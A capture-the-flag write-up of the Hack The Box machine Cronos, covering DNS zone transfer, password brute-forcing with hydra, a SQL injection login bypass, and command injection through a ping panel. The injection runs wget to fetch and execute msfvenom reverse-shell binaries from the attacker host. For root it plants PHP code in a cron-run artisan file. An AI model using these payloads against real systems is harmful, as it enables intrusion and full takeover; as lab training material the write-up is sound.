# [Cronos](https://app.hackthebox.eu/machines/11)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.13 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.13 # quick scan
```

both scans return the following:



Start some manual scans of the website in the background:

```bash
dirb http://10.10.10.13 -r
nikto -h http://10.10.10.13 --maxtime=30s
```

A quick look at the website shows that it is a default landing page:



Probably not much to see here so moving on... Next to look at is the DNS service:

- https://book.hacktricks.xyz/pentesting/pentesting-dns

First thing is to get the domain by asking for the NS (nameserver record) from the target:

- *NS* - Nameserver records contain the name of the authoritative servers hosting the DNS records for a domain.
- *A* - Also known as a host record, contains the IP address of a hostname.
- *MX* - Mail Exchange records contain the names of the servers responsible for handling email for the domain. A domain can contain multiple MX records.
- *PTR* - Pointer Records are used in reverse lookup zones and are used to find the records associated with an IP address.
- *CNAME* - Canonical Name Records are used to create aliases for other host records.
- *TXT* - Text records can contain any arbitrary data and can be used for various purposes, such as domain ownership verification.

```bash
host -t ns 10.10.10.13 10.10.10.13
```



So the domain is `cronos.htb`. Next is to try a zone transfer:

```bash
host -l cronos.htb 10.10.10.13
```



There are 3 other A records for the following hosts:

- `admin.cronos.htb`
- `ns1.cronos.htb`
- `www.cronos.htb`

Next is a basic DNS enum, which gives the same results known so far:

```bash
dnsenum --dnsserver 10.10.10.13 cronos.htb
```

With these new hosts, add them to `/etc/hosts`:

```
10.10.10.13	admin.cronos.htb
10.10.10.13	www.cronos.htb
10.10.10.13	ns1.cronos.htb
```

Then browsing to `http://www.cronos.htb` gives the following:



The website is pretty bare and looking at the HTML source only shows the following external links:



Looking at the `laravel` project GitHub link says the following:

> Laravel is a web application framework with expressive, elegant syntax.  We believe development must be an enjoyable and creative experience to  be truly fulfilling. Laravel takes the pain out of development by easing common tasks used in many web projects...

Without version information, there isn't much to search for with exploits. In the background, start the following web scanners:

```bash
dirb http://www.cronos.htb -r
dirb http://admin.cronos.htb -r
nikto -h http://www.cronos.htb --maxtime=30s
nikto -h http://admin.cronos.htb --maxtime=30s
```

Looking at `http://admin.cronos.htb` shows the following:



Some easy password guesses don't return any luck:

- `admin/admin`
- `admin/password`

In the background, run the following login bruteforce attempt based on the login form from the HTML source after a failed login:



```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# assuming the user "admin" exists ...
hydra -vV -f -I\
  -l cronos \
  -P ./rockyou.txt \
  admin.cronos.htb \
  http-post-form \
  "/index.php:username=^USER^&password=^PASS^:invalid"
```

Next to test is some simple SQL injection for a login bypass:

- `" or 1=1#` as the username and `bubba` as the password does not work :disappointed:
- `' or 1=1#` as the username and `bubba` as the password works :happy:

The page at `http://admin.cronos.htb` now becomes:



This seems like a simple remote command panel. Setting the dropdown to Ping and adding in a simple command line escape input `127.0.0.1 && whoami` returns the following:



Nice! this can be easily used for a reverse shell with the following payload after changing `whoami` to `which wget` in order to verify the target has that remote download utility:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 6969
# enter the following command into the admin panel at http://admin.cronos.htb
127.0.0.1 && wget http://10.10.14.23:8080/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &
```

And here is the reverse shell that can be upgraded to a TTY shell with the following:

- https://netsec.ws/?p=337

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```



From here, it is easy to find `user.txt` with the following commands:

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
cat /home/noulis/user.txt
```



If there is a double typing issue into the terminal after upgrading to a TTY shell, fix it by disabling `echo` in the Kali TTY shell as follows:

```bash
# Ctrl-Z to background the target shell
stty -echo
fg
```

During user enumeration, the following cron entry is found:

```bash
cat /etc/cron*
```



That job will run as `root` every minute of every hour of every day of every month of every year (`* * * * *`). Looking at the folder `/var/www/laravel` shows that the `www-data` user has write permissions for the `artisan` file.

```bash
ls -la /var/www/laravel
```



The `artisan` file source code can be found on the project's GitHub:

- https://github.com/laravel/laravel/blob/master/artisan

Since this file is just PHP code, it is possible to insert custom PHP code to spawn another reverse shell by adding the following PHP code to the top of the `artisan` file:

```php
function executeCommand(string $command) {
  # Try to find a way to run our command using various PHP internals
  if (class_exists('ReflectionFunction')) {
    # http://php.net/manual/en/class.reflectionfunction.php
    $function = new ReflectionFunction('system');
    $function->invoke($command);
  } elseif (function_exists('call_user_func_array')) {
    # http://php.net/manual/en/function.call-user-func-array.php
    call_user_func_array('system', array($command));
  } elseif (function_exists('call_user_func')) {
    # http://php.net/manual/en/function.call-user-func.php
    call_user_func('system', $command);
  } else if(function_exists('passthru')) {
    # https://www.php.net/manual/en/function.passthru.php
    ob_start();
    passthru($command , $return_var);
    $output = ob_get_contents();
    ob_end_clean();
  } else if(function_exists('system')){
    # this is the last resort. chances are PHP Suhosin
    # has system() on a blacklist anyways :>

    # http://php.net/manual/en/function.system.php
    system($command);
  }
}
executeCommand('wget http://10.10.14.23:8080/root.bubba.elf -P /tmp/ && chmod +x /tmp/root.bubba.elf && /tmp/root.bubba.elf &');
```

This code will download another reverse shell payload to `/tmp` and hopefully provide a `root` shell. To do this, another reverse shell payload must be made and served:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=7777 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > root.bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
# wait for the callback
nc -nvlp 7777
```

Copy the source code from the original `artisan` file and insert the custom PHP code at the top after `<?php` and save that file on Kali as `artisan.new`. Then in the `www-data` reverse shell, run the following commands to download and overwrite the `artisan` file on the target:

```bash
cd /var/www/laravel
wget http://10.10.14.23:8080/artisan.new
mv artisan.new artisan
```

Then after waiting a minute, the reverse shell is created as `root`!



